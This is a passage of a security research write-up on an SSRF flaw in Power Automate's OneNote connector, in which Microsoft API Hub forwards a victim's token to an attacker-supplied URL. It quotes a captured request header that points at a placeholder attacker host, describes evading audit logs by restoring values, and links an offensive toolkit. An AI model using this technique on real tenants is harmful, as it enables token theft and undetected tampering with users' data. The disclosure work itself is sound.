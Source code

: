Since the flow wasn’t really executed, no run logs exist. There’s no audit trail pointing to this token exfiltration. The attacker gets what they came for, and the victim remains completely unaware. Provided, of course, the attacker restores the original value.

Remember: the flow only had a OneNote trigger, no write actions. Yet the stolen token allowed me to perform write operations far beyond the flow’s intended behavior.

This is a clear violation of data integrity, where the attacker gains the ability to alter user-owned content that the flow was never intended to touch, and effectively escalates their privileges from co-owner of a read-only trigger to full write access over the victim’s data.

## **How (and WHY) is this even possible?**

I wanted to understand what exactly is causing the problem.

At this point, we know that the attacker:

- Didn’t run the flow.

- Didn’t need their own connection.

- Didn’t trigger anything that would appear in logs.


So… who actually sent that request?

Up to this point, we used the Power Automate UI to demonstrate the SSRF exploitation, just entering a Burp endpoint into the OneNote trigger field. But now, we want to take a closer look: what part of the request actually causes this to happen, and can we trigger it programmatically?

Let’s talk about the real player behind the scenes here: **Microsoft API Hub**.

When you use a connector like **OneNote** in Power Automate, the request doesn’t come from your browser or device. Instead, Microsoft offloads the actual API call to **API Hub** \- a backend service that acts as a centralized proxy for executing flow steps, managing tokens, and bridging Power Platform connectors to their underlying APIs.

If you’d like to try this for yourself, Zenity’s offensive toolset, [PowerPWN](https://github.com/mbrg/power-pwn?utm_source=labs.zenity.io&utm_medium=referral&utm_campaign=i-just-wanted-to-take-a-note-and-your-token-came-along), programmatically interacts with API Hub to detect excessive permission sharing and uncover a wide range of misconfigurations across the Power Platform ecosystem.

You can usually see the API Hub at work when running a flow that contacts external APIs and it’s also used silently by many built-in Microsoft connectors.

API Hub lives at domains like:

```
*.azure-apihub.net
```

And in our case, it left behind a very clear trace in the request that was captured:

```
X-MS-APIM-Referrer: https://default-<guid>.azure-apihub.net/apim/onenote/shared-onenote-.../pages?sectionId=https://<my-oast-url>
```

It originated inside Microsoft’s infrastructure, was routed through API Hub, and ended up at an external domain - the attacker’s… And it brought credentials (a token) with it.
